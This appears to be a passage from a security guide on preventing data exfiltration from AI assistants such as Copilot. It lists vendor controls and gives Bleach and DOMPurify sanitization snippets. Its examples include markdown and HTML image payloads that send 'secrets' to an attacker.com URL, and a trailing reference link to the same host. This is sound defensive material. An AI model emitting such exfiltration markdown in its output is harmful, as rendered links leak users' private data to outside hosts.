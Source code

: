 **Source:** https://www.trendmicro.com/en_us/business/products/user-protection/sps/zero-trust-secure-access.html

---

### 5. Microsoft Defender for Cloud Apps
**Purpose:** DLP tags, sensitivity labels, access control for Microsoft 365 Copilot

**Features:**
- DLP tags to block external email processing in Copilot
- Sensitivity labels restrict Copilot access to labeled content only
- Microsoft 365 Roadmap integration
- Monitors AI-generated links in Microsoft ecosystem

**Source:** Microsoft Security Blog

---

### 6. Markdown Sanitization Libraries

**Python - Bleach:**
```python
import bleach

def sanitize_markdown(markdown_text):
    """Remove images and external links"""
    # Allowlist of safe tags (no images)
    allowed_tags = ['p', 'b', 'i', 'u', 'strong', 'em', 'code', 'pre']
    allowed_attrs = {}  # No attributes (removes href, src)

    clean = bleach.clean(
        markdown_text,
        tags=allowed_tags,
        attributes=allowed_attrs,
        strip=True
    )

    return clean

# Usage
unsafe_markdown = "![exfil](https://attacker.com/leak?data=secrets)"
safe_markdown = sanitize_markdown(unsafe_markdown)
print(safe_markdown)  # Image removed
```

**JavaScript - DOMPurify:**
```javascript
import DOMPurify from 'dompurify';

const unsafeHTML = '<img src="https://attacker.com/leak?data=secrets">';
const safeHTML = DOMPurify.sanitize(unsafeHTML, {
    FORBID_TAGS: ['img', 'script', 'iframe'],
    FORBID_ATTR: ['src', 'href']
});

console.log(safeHTML);  // Output: empty (image removed)
```

---

[ref]: https://attacker.com/exfil?data=secrets